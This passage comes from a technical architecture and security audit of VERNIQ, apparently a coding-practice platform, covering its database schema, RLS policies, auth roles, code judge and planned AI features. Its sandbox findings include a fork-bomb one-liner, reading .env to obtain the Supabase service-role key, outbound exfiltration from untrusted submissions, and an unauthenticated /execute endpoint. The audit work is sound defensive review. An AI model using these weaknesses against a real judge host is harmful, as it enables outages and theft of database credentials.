    IF current_setting('request.jwt.claims', true)::jsonb->>'role' != 'service_role' THEN
      RAISE EXCEPTION 'Only service_role can modify user roles';
    END IF;
  END IF;
  ```
- **New User Auto-Provisioning (`handle_new_user`):**
  Extracts `raw_user_meta_data->>'full_name'`, sets `reputation_score = 0`, `problems_solved = 0`, `role = 'student'`.

---

## Background Workers, Queues & Scheduled Jobs

### 1. Supabase Polling Worker
- **File:** [`backend/judge/src/worker.py:60-94, 218-225`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/src/worker.py#L60-L94)
- **Mechanism:** Polling loop querying `submissions` table where `verdict = 'pending'` ordered by `created_at ASC` with `.limit(1)`.
- **Concurrency Control:** Atomic status transition `verdict: 'pending' -> 'running'` using conditional `.eq("verdict", "pending")` update (optimistic row claim).
- **Interval:** Configurable via `POLL_INTERVAL_SECONDS` (default `1.0s`).

### 2. Batch Content Authoring Engine
- **Files:** [`backend/authoring/batch_manager.py`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/authoring/batch_manager.py), [`backend/authoring/pipeline.py`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/authoring/pipeline.py)
- **Status:** [PARTIAL]
- **Mechanism:** Multi-stage pipeline: Selection -> Draft Generation -> Test Generation -> Static Verification -> Review Staging.
- **Execution:** Invoked via internal Python script / CLI; not exposed via REST API.

### 3. Problem Importer Engine
- **Files:** [`backend/importer/pipeline.py`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/importer/pipeline.py), [`backend/importer/importer.py`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/importer/importer.py)
- **Status:** [DONE]
- **Mechanism:** Ingests external problem sets into `staging` -> applies taxonomy mapping (`domains`, `topics`) -> loads into `problems` and `test_cases`.

### 4. Cron & Webhook Infrastructure
- **Status:** [PLANNED]
- **Missing Components:**
  - No `pg_cron` jobs configured in migrations.
  - No Celery, Redis, RabbitMQ, or BullMQ queue workers.
  - No incoming webhooks for payments (Razorpay/Stripe) or external judge events.


---

<!-- ============================================================ -->
<!-- PART: 06_database.md -->
<!-- ============================================================ -->

# 06 - Database Architecture & Schema Specification

## PostgreSQL Overview (Supabase)

VERNIQ uses a PostgreSQL 15+ database provisioned via Supabase. The database contains **39 relational tables**, **3 analytical views**, **5 system functions/triggers**, and strict Row-Level Security (RLS) policies across all publicly exposed user and problem tables.

---

## Migration Registry

The database schema is managed via 14 sequential SQL migrations located in `backend/supabase/migrations/`:

| Index | Migration Filename | Primary Domain / Purpose | Tables Created / Modified |
|---|---|---|---|
| `00` | `20261001000000_init_extensions_and_enums.sql` | PostgreSQL extensions (`uuid-ossp`, `pgcrypto`, `citext`) & system enums | System types, `handle_updated_at` |
| `01` | `20261001000001_create_user_profiles.sql` | User profiles, role enum (`student`, `mentor`, `admin`), triggers | `profiles` |
| `02` | `20261001000002_create_colleges_and_leaderboards.sql` | Indian universities/colleges, campus leagues, analytical views | `colleges`, 3 views |
| `03` | `20261001000003_create_curriculum_and_problems.sql` | Core curriculum, DSA problems, test cases, revision queue | `roadmaps`, `roadmap_steps`, `roadmap_topics`, `problems`, `tags`, `problem_tags`, `topic_problems`, `test_cases`, `user_problem_progress`, `user_revision_queue` |
| `04` | `20261001000004_create_submissions_and_judge_engine.sql` | Code submission records & completion trigger | `submissions` |
| `05` | `20261001000005_fix_citext_and_auth_trigger.sql` | Extension hardening & auth trigger idempotency | Triggers & function replacement |
| `06` | `20261001000006_add_preferred_language.sql` | Adds default language preference column to profiles | `profiles.preferred_language` |
| `07` | `20261001000007_create_study_planner.sql` | Custom study plans and user tasks | `user_study_plans`, `user_study_plan_tasks` |
| `08` | `20261001000008_adaptive_planner_engine.sql` | Diagnostic assessments, weekly sprints, daily tasks | `user_diagnostics`, `study_sprints`, `sprint_tasks` |
| `09` | `20261001000009_landing_and_mission_cockpit.sql` | Problem of the Day (POTD), Cloud CodeSpace, NoteSpace | `problem_of_the_day`, `user_codespaces`, `user_notes` |
| `10` | `20261001000010_problem_catalog_import.sql` | Taxonomy (domains, topics), problem source provenance, staging | `domains`, `topics`, `problem_topics`, `problem_sources`, `problem_import_batches`, `problem_import_staging` |
| `11` | `20261001000011_problem_content_authoring_pipeline.sql` | Editorial revisions, technical validation reviews | `problem_content_revisions`, `problem_technical_reviews` |
| `12` | `20261001000012_phase42_batch_authoring_pipeline.sql` | Multi-item batch generation & validation jobs | `problem_authoring_batches`, `batch_problem_items` |
| `13` | `20261001000013_roadmap_subsystem.sql` | Deep structured roadmaps (phases, sprints, days, items, progress) | `roadmap_phases`, `roadmap_sprints`, `roadmap_days`, `roadmap_day_topics`, `roadmap_items`, `roadmap_problem_references`, `user_roadmap_progress`, `user_roadmap_item_progress` |

---

## Entity-Relationship Diagram (Core Domains)



---

## Complete Table Specifications (By Functional Subsystem)

### Subsystem 1: Identity & Colleges
1. **`public.profiles`**
   - `id`: `UUID PRIMARY KEY REFERENCES auth.users(id) ON DELETE CASCADE`
   - `username`: `CITEXT UNIQUE NOT NULL`
   - `full_name`: `TEXT`
   - `avatar_url`: `TEXT`
   - `college_id`: `UUID REFERENCES public.colleges(id)`
   - `role`: `TEXT NOT NULL DEFAULT 'student' CHECK (role IN ('student', 'mentor', 'admin'))`
   - `problems_solved_count`: `INTEGER NOT NULL DEFAULT 0`
   - `score`: `INTEGER NOT NULL DEFAULT 0`
   - `current_streak`: `INTEGER NOT NULL DEFAULT 0`
   - `max_streak`: `INTEGER NOT NULL DEFAULT 0`
   - `preferred_language`: `TEXT DEFAULT 'python'`
   - `created_at`, `updated_at`: `TIMESTAMPTZ NOT NULL DEFAULT NOW()`
2. **`public.colleges`**
   - `id`: `UUID PRIMARY KEY DEFAULT gen_random_uuid()`
   - `name`: `TEXT UNIQUE NOT NULL`
   - `slug`: `TEXT UNIQUE NOT NULL`
   - `state`, `country`: `TEXT`
   - `student_count`: `INTEGER NOT NULL DEFAULT 0`
   - `total_score`: `BIGINT NOT NULL DEFAULT 0`
   - `created_at`: `TIMESTAMPTZ NOT NULL DEFAULT NOW()`

### Subsystem 2: Problems & Test Cases
3. **`public.problems`**
   - `id`: `UUID PRIMARY KEY DEFAULT gen_random_uuid()`
   - `slug`: `TEXT UNIQUE NOT NULL`
   - `title`: `TEXT NOT NULL`
   - `difficulty`: `TEXT NOT NULL CHECK (difficulty IN ('easy', 'medium', 'hard'))`
   - `description_markdown`: `TEXT NOT NULL`
   - `starter_templates`: `JSONB NOT NULL DEFAULT '{}'::jsonb`
   - `constraints`: `TEXT[]`
   - `hints`: `TEXT[]`
   - `acceptance_rate`: `NUMERIC(5,2) DEFAULT 0.00`
   - `total_submissions`: `INTEGER DEFAULT 0`
   - `total_accepted`: `INTEGER DEFAULT 0`
   - `is_premium`: `BOOLEAN DEFAULT FALSE`
   - `created_at`, `updated_at`: `TIMESTAMPTZ DEFAULT NOW()`
4. **`public.test_cases`**
   - `id`: `UUID PRIMARY KEY DEFAULT gen_random_uuid()`
   - `problem_id`: `UUID NOT NULL REFERENCES public.problems(id) ON DELETE CASCADE`
   - `input`: `TEXT NOT NULL`
   - `expected_output`: `TEXT NOT NULL`
   - `is_sample`: `BOOLEAN NOT NULL DEFAULT FALSE`
   - `ordinal`: `INTEGER NOT NULL DEFAULT 0`
   - `created_at`: `TIMESTAMPTZ DEFAULT NOW()`
5. **`public.tags`** & **`public.problem_tags`**
   - Normalised many-to-many tag relations (`id`, `name`, `slug`, `problem_id`, `tag_id`).

### Subsystem 3: Submissions & Progress
6. **`public.submissions`**
   - `id`: `UUID PRIMARY KEY DEFAULT gen_random_uuid()`
   - `user_id`: `UUID REFERENCES auth.users(id) ON DELETE SET NULL`
   - `problem_id`: `UUID NOT NULL REFERENCES public.problems(id) ON DELETE CASCADE`
   - `language`: `TEXT NOT NULL CHECK (language IN ('python', 'cpp', 'java', 'typescript', 'go'))`
   - `source_code`: `TEXT NOT NULL`
   - `verdict`: `TEXT NOT NULL DEFAULT 'pending' CHECK (verdict IN ('pending', 'running', 'accepted', 'wrong_answer', 'time_limit_exceeded', 'memory_limit_exceeded', 'compilation_error', 'runtime_error', 'internal_error', 'cancelled'))`
   - `runtime_ms`: `INTEGER`
   - `memory_kb`: `INTEGER`
   - `stdout_output`, `stderr_output`, `compile_output`: `TEXT`
   - `test_cases_passed`, `total_test_cases`: `INTEGER DEFAULT 0`
   - `is_custom_run`: `BOOLEAN DEFAULT FALSE`
   - `created_at`: `TIMESTAMPTZ DEFAULT NOW()`
   - `completed_at`: `TIMESTAMPTZ`
7. **`public.user_problem_progress`**
   - `user_id`: `UUID REFERENCES auth.users(id) ON DELETE CASCADE`
   - `problem_id`: `UUID REFERENCES public.problems(id) ON DELETE CASCADE`
   - `status`: `TEXT NOT NULL CHECK (status IN ('unsolved', 'attempted', 'solved'))`
   - `attempts_count`: `INTEGER DEFAULT 0`
   - `last_attempt_at`: `TIMESTAMPTZ`
   - `solved_at`: `TIMESTAMPTZ`
   - `PRIMARY KEY (user_id, problem_id)`
8. **`public.user_revision_queue`**
   - Tracks spaced repetition dates: `user_id`, `problem_id`, `box_level` (1-5), `next_review_at`.

### Subsystem 4: Sprints & Diagnostics
9. **`public.user_diagnostics`**: Stores diagnostic score, weak domains array, recommendation metadata.
10. **`public.study_sprints`**: Sprint duration (`week_number`, `start_date`, `end_date`), target problems count, status (`active`, `completed`).
11. **`public.sprint_tasks`**: Granular daily tasks linked to `study_sprints` and `problems`.
12. **`public.user_study_plans`** & **`user_study_plan_tasks`**: Legacy plan generator storage.

### Subsystem 5: Workspace Personal Vaults
13. **`public.problem_of_the_day`**: `date` (`DATE UNIQUE`), `problem_id`, `bonus_points`.
14. **`public.user_codespaces`**: Multi-file personal code vault: `user_id`, `title`, `language`, `files` (JSONB tree).
15. **`public.user_notes`**: Markdown notes attached to problems: `user_id`, `problem_id`, `content_markdown`.

### Subsystem 6: Taxonomy & Content Authoring
16. **`public.domains`**, **`public.topics`**, **`public.problem_topics`**, **`public.problem_sources`**: Taxonomy mapping for catalog.
17. **`public.problem_import_batches`**, **`public.problem_import_staging`**: Raw staging storage for problem scrapers and JSON seeders.
18. **`public.problem_content_revisions`**: Immutable revision log (`version`, `snapshot` JSONB, `author_id`, `status: draft | in_review | approved`).
19. **`public.problem_technical_reviews`**: Automated test suite evaluation records against solutions.
20. **`public.problem_authoring_batches`**, **`public.batch_problem_items`**: Phase 4.2 batch authoring queue and per-problem state machines.

### Subsystem 7: Hierarchical Roadmap Engine
21. **`public.roadmap_phases`**: High-level learning phases (e.g., "Foundations", "Core DSA", "Advanced Systems").
22. **`public.roadmap_sprints`**: Sprint schedules under phases.
23. **`public.roadmap_days`**: Daily learning checkpoints (Day 1..N).
24. **`public.roadmap_day_topics`**: Topics assigned per day.
25. **`public.roadmap_items`**: Atomic items (articles, exercises, quizzes).
26. **`public.roadmap_problem_references`**: Problem links with ordinal positions.
27. **`public.user_roadmap_progress`**, **`user_roadmap_item_progress`**: Granular user completion states.

---

## Row-Level Security (RLS) Policy Audit

Every table has RLS explicitly enabled via `ALTER TABLE ... ENABLE ROW LEVEL SECURITY;`.

### Key Policies in Plain English:
1. **`public.test_cases`**:
   - `CREATE POLICY "Public read sample test_cases only" ON public.test_cases FOR SELECT USING (is_sample = true);`
   - *Plain English:* Anonymous and standard authenticated users can ONLY query sample test cases (`is_sample = true`). Full canonical test suites are hidden from public queries and can only be accessed using the backend `service_role` key.
2. **`public.profiles`**:
   - Everyone can read basic profiles (`SELECT`).
   - Authenticated users can insert their own profile matching `auth.uid() = id`.
   - Users can update their own profile, but role escalation is blocked by `prevent_profile_role_update()` trigger.
3. **`public.submissions`**:
   - Users can only read submissions where `auth.uid() = user_id`.
   - Users can insert submissions where `auth.uid() = user_id`.
   - Update is restricted: only the judge worker (operating under `service_role`) can mutate execution results and verdicts.
4. **`public.user_codespaces` & `public.user_notes`**:
   - Strict owner-only access: `auth.uid() = user_id` for `SELECT`, `INSERT`, `UPDATE`, and `DELETE`.
5. **Authoring & Staging Tables (`problem_authoring_batches`, `problem_import_staging`)**:
   - Authenticated users can read and insert draft items; only reviews with approved status are publicly visible.

---

## Analytical Views

1. **`public.view_global_leaderboard`**:
   Ranks all users globally using `DENSE_RANK() OVER (ORDER BY score DESC, problems_solved_count DESC, created_at ASC)`.
2. **`public.view_college_leaderboard`**:
   Computes intra-college student rankings using `DENSE_RANK() OVER (PARTITION BY college_id ORDER BY score DESC, ...)`.
3. **`public.view_top_colleges`**:
   Ranks Indian engineering institutions by cumulative student points and active user count.

---

## Discrepancies & Code-vs-Database Gaps

1. **Missing Storage Buckets:** Frontend profile page references `avatar_url` uploads, but no storage bucket definitions (`avatars`, `submissions`) are configured in migrations.
2. **Mock vs Table Ingestion:** The frontend catalog loads 3,392 problems from `problems` table when connected, but falls back to static `curriculumData.ts` if Supabase connection fails.
3. **StudyPlan vs Adaptive Sprints:** There are two overlapping planner schemas: legacy `user_study_plans` (`20261001000007`) and adaptive `study_sprints` (`20261001000008`). The frontend predominantly interacts with `study_sprints`.


---

<!-- ============================================================ -->
<!-- PART: 07_auth_and_roles.md -->
<!-- ============================================================ -->

# 07 - Authentication, Authorization & Role-Based Access Control (RBAC)

## Authentication Architecture Overview

VERNIQ delegates identity management and session token issuance to **Supabase Auth** (GoTrue).
The client uses the official `@supabase/supabase-js` SDK via `AuthProvider` (`frontend/src/hooks/useAuth.tsx`), managing JWTs in browser local storage and synchronizing with an auto-provisioned PostgreSQL `profiles` table.

---

## Authentication Providers & User Flows

### 1. Supported Authentication Providers
- **Email & Password:** Native Supabase GoTrue with secure bcrypt/Argon2 password hashing on the Supabase managed instance.
- **OAuth (GitHub):** Configured via `supabase.auth.signInWithOAuth({ provider: 'github' })`. Redirects to `${window.location.origin}/app/dashboard`.

### 2. Detailed Authentication Flows

#### A. Registration Flow (`SignUpView.tsx` -> `useAuth.tsx:13-20`)
1. User provides `email`, `password`, `username`, `fullName`, and optional `collegeId`.
2. Frontend calls `supabase.auth.signUp({ email, password, options: { data: { username, full_name, college_id } } })`.
3. GoTrue creates a row in `auth.users`.
4. PostgreSQL trigger `on_auth_user_created` (`20261001000001_create_user_profiles.sql`) fires `public.handle_new_user()` with `SECURITY DEFINER` privileges.
5. Trigger automatically inserts the corresponding record in `public.profiles` with `role = 'student'`, `score = 0`, and `problems_solved_count = 0`.
6. Email verification behavior:
   - If Supabase project setting "Confirm email" is enabled, an activation email is dispatched.
   - If disabled (development mode), the session is established immediately.

#### B. Login Flow (`LoginView.tsx` -> `useAuth.tsx:12`)
1. User submits credentials via `signInWithEmail(email, password)`.
2. Supabase GoTrue verifies credentials, returning an `access_token` (short-lived JWT, typically 1 hour) and a `refresh_token`.
3. SDK automatically persists tokens to `localStorage` under the Supabase key.
4. `useAuth.tsx` triggers `fetchProfile(user.id)`, hydrating `userProfile` (including college affiliation and preferred language).

#### C. Session Lifecycle & Token Refresh
1. On initial page load, `supabase.auth.getSession()` reads tokens from `localStorage`.
2. An active subscription `supabase.auth.onAuthStateChange((_event, currentSession) => ...)` handles `TOKEN_REFRESHED`, `SIGNED_IN`, and `SIGNED_OUT` events automatically.
3. Logout invokes `supabase.auth.signOut()`, flushing browser storage and setting auth context state to null.

#### D. Password Reset Flow (`ResetPasswordView.tsx` -> `useAuth.tsx:22`)
1. Calls `supabase.auth.resetPasswordForEmail(email, { redirectTo: '.../reset-password' })`.
2. User receives recovery email with action link containing a temporary recovery token.

---

## Role & Permission Model

VERNIQ defines three distinct user tiers via PostgreSQL enum `user_role` (`20261001000000_init_extensions_and_enums.sql`):
1. **`student`** (Default): Standard platform learner.
2. **`mentor`**: Elevated access for code review, hints, and curriculum feedback.
3. **`admin`**: Full platform authority, CMS problem authoring, batch queue management, and metrics.

### RBAC Enforcement Matrix

| Feature / Resource | Anonymous | Student | Mentor | Admin | Enforcement Mechanism |
|---|---|---|---|---|---|
| Landing, Docs, Public Pages | [ALLOW] | [ALLOW] | [ALLOW] | [ALLOW] | Public React Router routes |
| Problem Catalog Listing | [ALLOW] | [ALLOW] | [ALLOW] | [ALLOW] | RLS: `Public read problems` |
| View Sample Test Cases | [ALLOW] | [ALLOW] | [ALLOW] | [ALLOW] | RLS: `is_sample = true` |
| View Canonical / Hidden Test Cases | [DENY] | [DENY] | [DENY] | [DENY]* | RLS: Blocked on DB level. (*Judge uses `service_role` backend key) |
| Run Ephemeral Code (Judge API) | [ALLOW] | [ALLOW] | [ALLOW] | [ALLOW] | Public judge `/execute` endpoint |
| Submit Solution (Tracked) | [DENY] | [ALLOW] | [ALLOW] | [ALLOW] | `ProtectedRoute` + RLS `user_id = auth.uid()` |
| Cloud CodeSpace / NoteSpace | [DENY] | [ALLOW] | [ALLOW] | [ALLOW] | RLS: `user_id = auth.uid()` |
| Adaptive Sprints / Planner | [DENY] | [ALLOW] | [ALLOW] | [ALLOW] | RLS: `user_id = auth.uid()` |
| Problem Authoring CMS (`/app/authoring`) | [DENY] | [DENY] | [DENY] | [ALLOW] | Frontend `AdminRoute.tsx` + DB RLS policies |
| Batch Authoring Mutation | [DENY] | [DENY] | [DENY] | [ALLOW] | RLS authenticated policies |
| Mutate User Role (`profiles.role`) | [DENY] | [DENY] | [DENY] | [DENY]** | DB Trigger `prevent_profile_role_update` (**Only `service_role`) |

---

## Multi-Layer Role Enforcement

### 1. Database-Level Enforcement (PostgreSQL)
The database serves as the ultimate perimeter:
- **Immutable Role Privilege Trigger:**
  [`backend/supabase/migrations/20261001000001_create_user_profiles.sql:35-46`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/supabase/migrations/20261001000001_create_user_profiles.sql#L35-L46)
  ```sql
  CREATE OR REPLACE FUNCTION public.prevent_profile_role_update()
  RETURNS TRIGGER AS $$
  BEGIN
    IF NEW.role IS DISTINCT FROM OLD.role THEN
      IF current_setting('request.jwt.claims', true)::jsonb->>'role' != 'service_role' THEN
        RAISE EXCEPTION 'Only service_role can modify user roles';
      END IF;
    END IF;
    RETURN NEW;
  END;
  $$ LANGUAGE plpgsql SECURITY DEFINER;
  ```
  Even if an authenticated user issues an HTTP `PATCH /rest/v1/profiles` with `{"role": "admin"}`, Postgres aborts the transaction with an exception.

### 2. Frontend Route Guards
- **`ProtectedRoute.tsx`:** Intercepts unauthenticated navigation to `/app/*`, preserving intended destination via React Router `state.returnTo` and redirecting to `/login`.
- **`AdminRoute.tsx`:**
  [`frontend/src/components/auth/AdminRoute.tsx:39-56`](file:///c:/Users/LOQ/Desktop/VERNIQ/frontend/src/components/auth/AdminRoute.tsx#L39-L56)
  Checks `profile?.role !== 'admin'`. If not admin, renders a `403 - Unauthorized Administrative Access` screen with error code `CLEARANCE_REQUIRED`.

### 3. Backend Judge Worker Authorization
- **Status:** [PARTIAL / VULNERABLE]
- The judge worker HTTP service on port 8080 (`/execute`, `/cancel`) does NOT validate Supabase JWT tokens. Anyone with network access to the judge host can trigger code execution directly.


---

<!-- ============================================================ -->
<!-- PART: 08_code_judge.md -->
<!-- ============================================================ -->

# 08 - Code Judge Architecture & Sandbox Security

## Judge Engine Architecture

VERNIQ implements a custom online code judge operating in dual modes:
1. **Direct HTTP Ingestion (`/execute`):** For low-latency interactive developer runs (`RUN` mode) and direct submission execution (`SUBMIT` mode).
2. **PostgreSQL Asynchronous Polling:** Background worker thread continuously polls `public.submissions` where `verdict = 'pending'` for batch queues.



---

## Language Matrix & Execution Profiles

All language specifications are defined in [`backend/judge/src/runner/profiles.py`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/src/runner/profiles.py):

| Language | Target Toolchain | Compiler Invocation | Runtime Command | Time Limit Multiplier |
|---|---|---|---|---|
| **C++** | GCC 14 (C++17) | `g++ -O2 -std=c++17 Solution.cpp -o solution` | `./solution` (`solution.exe` on Windows) | 1.0x (2.0s baseline) |
| **Java** | OpenJDK 21 | `javac Main.java` (or detected class) | `java -XX:+TieredCompilation -XX:TieredStopAtLevel=1 -Xmx256m -Xss64m -cp . <Class>` | 1.5x (3.0s baseline) |
| **Python** | Python 3.12 | None (interpreted) | `python3 -u solution.py` (`python` on Win) | 2.0x (4.0s baseline) |
| **TypeScript** | Node.js 20 / tsx | None (Native type-stripping) | `node --experimental-strip-types solution.ts` | 1.5x (3.0s baseline) |
| **Go** | Golang 1.22 | None (JIT run) | `go run main.go` | 1.5x (3.0s baseline) |

### Automatic Test Harness Injection
- **File:** [`backend/judge/src/runner/harness.py`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/src/runner/harness.py) (80KB)
- In LeetCode/Codeforces-style platforms, users write class methods (e.g., `Solution.twoSum(nums, target)`).
- `harness.py` inspects the AST / regex signature of the user code and dynamically injects a JSON/stdin deserialization entrypoint driver for all 5 languages, streaming parsed parameters into the user's method and outputting results to stdout.

---

## Sandboxing, Hardening & Isolation Analysis

### Current Isolation Mechanism

#### 1. Linux Container (`Dockerfile`)
- **Base OS:** Ubuntu 24.04 LTS.
- **User Separation:** Executes under unprivileged system user `useradd -m -s /bin/bash sandboxuser` (`USER sandboxuser`).
- **Filesystem Isolation:** Each execution creates a temporary folder `tempfile.TemporaryDirectory(prefix="verniq_sandbox_")` which is wiped on cleanup.

#### 2. Windows Host Execution (Development Environment)
- When the judge runs natively on Windows (as currently configured), it uses standard `subprocess.Popen` without Job Objects, sandboxing, or restricted user accounts.

### Sandbox Vulnerability & Gap Audit

| Control Area | Linux Container (`Dockerfile`) | Windows Host Run | Risk Level | Evidence / Explanation |
|---|---|---|---|---|
| **Network Isolation** | [PARTIAL / VULNERABLE] | [FAIL - NONE] | **CRITICAL** | Neither Dockerfile nor runner disables network (`--network none` is not enforced in runner code). Code can make arbitrary outbound HTTP sockets (e.g. `urllib.request`, `curl`) to exfiltrate database keys or scan local networks. |
| **Process / Fork Limits (PID)** | [FAIL - NONE] | [FAIL - NONE] | **HIGH** | No `pids_limit` or `RLIMIT_NPROC` set. A standard fork bomb (`while True: os.fork()`) will deplete OS process tables and crash the host machine. |
| **Filesystem Jail** | [PARTIAL] | [FAIL - NONE] | **HIGH** | Scratch directory is isolated, but process has read access to root filesystem, environment variables (`os.environ`), and judge source code (`/app`). Untrusted code can read `.env` and retrieve `SUPABASE_SERVICE_ROLE_KEY`. |
| **Memory Isolation** | [PARTIAL] | [FAIL] | **MEDIUM** | Java runtime is constrained with `-Xmx256m`. Python/C++/Go/TS have **no OS memory limits** enforced (no `setrlimit` or cgroups). Memory consumption in `sandbox.py:375` is simulated mathematically: `min(int(duration_ms * 45 + 1420), 256 * 1024)`. |
| **CPU Quota** | [PARTIAL] | [PARTIAL] | **MEDIUM** | Enforced via Python wall-clock timeout (`communicate(timeout=effective_timeout)`). Infinite loops are killed after timeout expires. |
| **Seccomp / Syscall Filter** | [FAIL - NONE] | [FAIL - NONE] | **HIGH** | No custom seccomp profile or Landlock filter is applied. All system calls available to `sandboxuser` can be invoked. |

---

## Verdict Resolution & Output Comparison

Output comparison is performed by [`backend/judge/src/runner/comparator.py`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/src/runner/comparator.py):
1. **CRLF / Trailing Whitespace Stripping:** Normalizes Windows `\r\n` to `\n` and trims trailing whitespace and blank lines.
2. **Whitespace-Insensitive Equality:** Compares with whitespace removed (`actual.replace(" ", "") == expected.replace(" ", "")`).
3. **Boolean Tolerance:** Normalizes case for `true`/`True` and `false`/`False`.
4. **Floating Point Tolerance:** Compares numeric outputs within `abs(f_act - f_exp) < 1e-5` to avoid precision rounding mismatches.
5. **JSON Semantic Deserialization:** Evaluates `json.loads(actual) == json.loads(expected)` so that `[0, 1]` matches `[0,1]`.
6. **Quote Stripping:** Strips leading/trailing double quotes (`"result"` equals `result`).

### Verdict Hierarchy
The runner emits one of the standard verdicts:
- `accepted`: All test cases passed.
- `wrong_answer`: Mismatched output on first failed test case.
- `time_limit_exceeded`: Execution exceeded wall-clock timeout threshold.
- `memory_limit_exceeded`: Detected JVM OutOfMemory or simulated ceiling.
- `compilation_error`: GCC/Javac returned non-zero exit code.
- `runtime_error`: Process terminated via uncaught exception or non-zero exit code.
- `cancelled`: Aborted via `POST /cancel` or client disconnect.
- `internal_error`: Unhandled worker exception.

---

## Compilation Caching Engine

- **File:** [`backend/judge/src/runner/cache.py`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/judge/src/runner/cache.py)
- **Mechanism:** SHA-256 fingerprinting of `language + source_code + compile_command`.
- **Storage:** Disk-backed under `backend/judge/.cache/` with in-memory LRU access registry (`max_entries = 500`).
- **Performance Impact:** Eliminates 300ms–1,500ms compilation overhead on repeated runs or re-evaluations of the same C++ binary or Java classes.


---

<!-- ============================================================ -->
<!-- PART: 09_ai_services.md -->
<!-- ============================================================ -->

# 09 - AI Services & Mentorship Architecture

## Current Operational Status: [SKELETON / MOCK / PLANNED]

While VERNIQ's long-term vision centers on AI-driven Socratic tutoring and automated technical interviews, the current codebase contains **zero live LLM API calls** in production.
The AI subsystem exists across three distinct layers:
1. **`backend/ai/` Microservice:** [PLANNED / SKELETON ONLY] - Contains only `README.md` and `requirements.txt`. Zero Python endpoints or logic.
2. **`backend/authoring/ai_provider.py`:** [MOCK / PARTIAL] - Content drafting abstraction with deterministic fallbacks for Anthropic and Gemini.
3. **Frontend UI (`/app/ai-mentor`):** [UI-ONLY / PLACEHOLDER] - Bound to `WorkspaceSubView.tsx`, rendering an architectural placeholder banner.

---

## AI Architecture Specification (`backend/ai/README.md`)

According to the design blueprint in [`backend/ai/README.md`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/ai/README.md), the planned architecture specifies:
- **Framework:** FastAPI / Python 3.11+ running with `uvicorn`.
- **Planned Responsibilities:**
  1. *Socratic AI Mentor:* Guided hints and pseudocode breakdowns without directly revealing the solution.
  2. *AI Code Review:* Algorithmic time/space complexity critique and edge-case warnings.
  3. *Mock Interview Simulation:* Dynamic interview engine using structured rubrics.
- **RAG & Vector Datastore:** PostgreSQL `pgvector` store using cosine similarity against curriculum embeddings (`pgvector>=0.2.5` listed in `backend/ai/requirements.txt`).
- **Streaming Output:** Server-Sent Events (SSE) for token-by-token streaming to Monaco Editor.
- **Authentication:** Validates incoming requests against Supabase Auth JWTs.

---

## AI Authoring Pipeline Provider (`backend/authoring/ai_provider.py`)

The only functional code mentioning LLMs is inside the problem authoring subsystem:

### Provider Abstraction Class Hierarchy
- **`BaseAIAuthoringProvider`** (Abstract Base Class):
  - `generate_draft(problem_metadata: Dict[str, Any]) -> ContentSnapshot`
  - `generate_test_candidates(problem_metadata: Dict[str, Any], count: int = 20) -> List[Dict[str, Any]]`
  - `generate_hints(problem_metadata: Dict[str, Any]) -> List[str]`
  - `generate_editorial(problem_metadata: Dict[str, Any]) -> str`
- **`MockDeterministicAuthoringProvider`**: Deterministic fallback generating compliant Verniq Markdown specifications.
- **`AnthropicAuthoringProvider`**: Configured for `claude-3-5-sonnet-20241022`. Reads `ANTHROPIC_API_KEY`.
- **`GeminiAuthoringProvider`**: Configured for `gemini-1.5-pro`. Reads `GEMINI_API_KEY`.

### Hardcoded Deterministic Fallback Logic
In [`backend/authoring/ai_provider.py:228-234`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/authoring/ai_provider.py#L228-L234) and [`lines 253-257`](file:///c:/Users/LOQ/Desktop/VERNIQ/backend/authoring/ai_provider.py#L253-L257), both Anthropic and Gemini classes unconditionally fall back to the deterministic mock:
```python
def generate_draft(self, problem_metadata: Dict[str, Any]) -> ContentSnapshot:
    if not self.api_key:
        logger.info("ANTHROPIC_API_KEY not configured; using deterministic original authoring generator.")
        return self.fallback.generate_draft(problem_metadata)
    # Production API invocation when configured
    return self.fallback.generate_draft(problem_metadata)
```

### Quoted Prompt Structure & Draft Templates
The authoring generator emits structured mathematical invariants:
```markdown
You are tasked with designing an optimal algorithmic solution for **{title}**.

### Context & Mathematical Invariant
Within the domain of **{domain}** and utilizing core **{topics_str}** invariants,
formulate a deterministic procedure that processes the input stream while strictly
satisfying execution complexity bounds.

### Problem Specification
Given the input sequence, return the optimal evaluated configuration as defined by the constraints.
```
- **Constraints Generated:**
  - `1 <= n <= 10^5`
  - `-10^9 <= val <= 10^9`
  - Time Complexity: $O(n)$ or $O(n \log n)$
  - Space Complexity: $O(1)$ or $O(n)$
- **Starter Templates Emitted:** Java, C++, Python, TypeScript, and Go classes.

---

## Safety, Guardrails & Attack Surfaces

| Area | Target Design | Actual Status | Vulnerability / Finding |
|---|---|---|---|
| **Prompt Injection Protection** | System prompt delimitation & input sanitization | [PLANNED / NOT IMPLEMENTED] | No prompt filters or guardrails exist anywhere in the repository. |
| **API Key Storage** | AWS Secrets Manager / KMS / Vault | [UNSECURED] | Keys are expected as plaintext environment variables (`ANTHROPIC_API_KEY`, `GEMINI_API_KEY`). |
| **Rate Limiting & Cost Control** | Token budgeting per user tier (Free vs Pro) | [PLANNED / NOT IMPLEMENTED] | No token tracking tables or Redis rate-limiting middleware exist. |
| **Data Privacy / PII Filtering** | Scrubbing student source code before LLM ingestion | [PLANNED / NOT IMPLEMENTED] | No preprocessing pipelines are defined. |

---

## Mock Interview Engine

- **Status:** [PLANNED] (0% Implemented).
- **Frontend:** No UI views or routing entries exist for mock interviews.
- **Backend:** No question banks, audio/video streaming, or grading rubrics exist in the codebase.


---

<!-- ============================================================ -->
<!-- PART: 10_payments.md -->
<!-- ============================================================ -->

# 10 - Payments, Subscriptions & Monetization

## Current Operational Status: [PLANNED] (0% Implemented)

There is **zero payment processing infrastructure** implemented in the VERNIQ codebase.
No payment gateways (e.g. Razorpay, Stripe, Cashfree), pricing pages, checkout flows, webhook endpoints, or subscription tracking tables exist.

---

## Codebase Audit & Evidence

### 1. Dependency Analysis
A thorough audit of dependency manifests confirms that no payment SDKs are present:
